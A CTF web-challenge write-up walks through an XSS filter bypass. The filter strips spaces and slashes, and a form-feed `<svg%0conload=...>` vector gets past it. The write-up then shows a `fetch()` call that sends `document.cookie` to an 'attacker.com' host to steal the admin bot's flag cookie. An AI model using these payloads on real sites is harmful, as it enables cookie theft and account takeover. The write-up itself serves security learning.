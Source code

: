 The `substr` applied at the beginning doesn't actually change the GET parameter, all it does is create a new local variable `$name`. The `Enhanced_Trim` function removes the following characters from its input:
- Carriage returns
- Newlines
- Tabs
- Forward slashes
- Spaces
The less-than and greater-than signs are not stripped, which allows us to create new HTML tags. For example, if we visit the path `/?name=<img>`, we get the following HTML:

```html
<html><head></head><body>Hello, <img></body></html>
```

Great! Now, we need to find a way to execute JS. Remember that we can't use common whitespace characters, so we can't inject something like `<img src=q onerror=alert(123)>`. A quick Google search led me to [this](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) StackExchange post, whose answers mention that we can use the form feed (hex 0x0c) instead of a whitespace as such:

```
<svg%0conload=alert(123)>
```

Let's try this by going to the URL `/?name=<svg%0conload=alert(123)>`:

![alert_popup](/assets/img/idek2024/alert_popup.png)

Nice! We got an alert pop-up. From here on, the road to getting the flag should be pretty simple; we just need to change this into something that exfiltrates cookies (since the flag is located in the FLAG cookie of the admin bot). 
One of the most common methods, and the one we'll go about doing this, is `fetch()`ing the attacker's website, and sending the cookie in the URL parameter, as follows:

```js
fetch(`http://attacker.com/cookies=${document.cookie}`)
```

But remember that we don't have forward slashes, so we need to find a way to get some in order to specify the `http://` prefix. The way I chose to do this was to take the prefix of the `window.location.href` DOM property. This DOM property contains the location of the current window; for example if we were to go to `http://example.com` and inspect this property, we'll see:

![window_location_href](/assets/img/idek2024/window_location_href.png)

Specifically note the `http://` prefix. If we apply the `substring` method on this, we'll get the string `http://` (to get this, we run `window.location.href.substring(0, 7)`). We can do a similar thing (`window.location.href.substring(5, 6)`) to get the forward slash character.
Armed with this prefix, we can construct our payload:
